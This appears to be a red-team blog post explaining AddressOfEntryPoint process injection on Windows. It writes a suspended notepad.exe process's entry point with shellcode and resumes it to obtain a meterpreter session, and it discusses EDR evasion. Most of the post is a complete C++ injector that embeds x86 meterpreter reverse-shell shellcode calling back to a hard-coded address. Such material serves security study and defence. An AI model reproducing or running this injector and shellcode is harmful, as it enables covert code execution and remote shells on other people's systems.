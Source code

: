 ```yaml
---
layout: post
title: "2024-06-18-addressofentrypoint code injection without virtualallocex rwx"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /addressofentrypoint-code-injection-without-virtualallocex-rwx/
---
```


---
description: Code Injection
---

# AddressOfEntryPoint Code Injection without VirtualAllocEx RWX

This is a shellcode injection technique that works as follows:

1. Start a target process into which the shellcode will be injected, in suspended state.&#x20;
2. Get `AddressOfEntryPoint` of the target process
3. Write shellcode to `AddressOfEntryPoint` retrieved in step 2
4. Resume target process
5. Catch the incoming shell

What's nice about this technique is that we do not need to allocate RWX memory pages in the victim process which some EDRs may not like.

```
**Attention**

Per [https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/issues/36](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/issues/36).

At the page on [AddressOfEntryPoint Code Injection without VirtualAllocEx RWX](https://www.ired.team/offensive-security/code-injection-process-injection/addressofentrypoint-code-injection-without-virtualallocex-rwx), this is not really done without using RWX. As shown in the first picture, the entrypoint memory page is already under RX permissions, and as shown [here](https://www.ired.team/offensive-security/defense-evasion/finding-all-rwx-protected-memory-regions), the only reason this method works is because WriteProcessMemory is being nice and trying to change RX to RWX temporarily, which would end up creating an RWX page anyways, essentially making this technique still easily detectable by EDRs that look for RWX regions.
```

## Execution

First, in order to get `AddressOfEntryPoint`, we need to get the image base address of the target process - notepad.exe:

![](<../../.gitbook/assets/image (194).png>)

We then need to parse out the NT and Optional Headers and find the AddressEntryPoint (Relative Virtual Address) of the notepad.exe which in my case was at 0001bf90:

![](<../../.gitbook/assets/image (195).png>)

Knowing notepad's image base address and an RVA of the AddressEntryPoint, we can get its Virtual Address (by adding the two up) and hijack the executable by overwriting the very first instructions found at that address with our shellcode:

![bytes at AddressOfEntryPoint get overwritten with shellcode](../../.gitbook/assets/overwrite-entrypoint.gif)

Resuming the suspended process executes our shellcode which results in a meterpreter session:

![](../../.gitbook/assets/overwrite-entrypoint-catch-meterpreter.gif)

## Code

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
#include <winternl.h>
#pragma comment(lib, "ntdll")

int main()
{
	//x86 meterpreter
	unsigned char shellcode[] = 
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
		"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
		"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05"
		"\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
		"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
		"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
		"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
		"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
		"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
		"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
		"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
		"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
		"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
		"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
	
	STARTUPINFOA si;
	si = {};
	PROCESS_INFORMATION pi = {};
	PROCESS_BASIC_INFORMATION pbi = {};
	DWORD returnLength = 0;
	CreateProcessA(0, (LPSTR)"c:\\windows\\system32\\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);

	// get target image PEB address and pointer to image base
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLength);
	DWORD pebOffset = (DWORD)pbi.PebBaseAddress + 8;

	// get target process image base address
	LPVOID imageBase = 0;
	ReadProcessMemory(pi.hProcess, (LPCVOID)pebOffset, &imageBase, 4, NULL);
	
	// read target process image headers
	BYTE headersBuffer[4096] = {};
	ReadProcessMemory(pi.hProcess, (LPCVOID)imageBase, headersBuffer, 4096, NULL);

	// get AddressOfEntryPoint
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersBuffer + dosHeader->e_lfanew);
	LPVOID codeEntry = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD)imageBase);

	// write shellcode to image entry point and execute it
	WriteProcessMemory(pi.hProcess, codeEntry, shellcode, sizeof(shellcode), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```
@spotheplanet
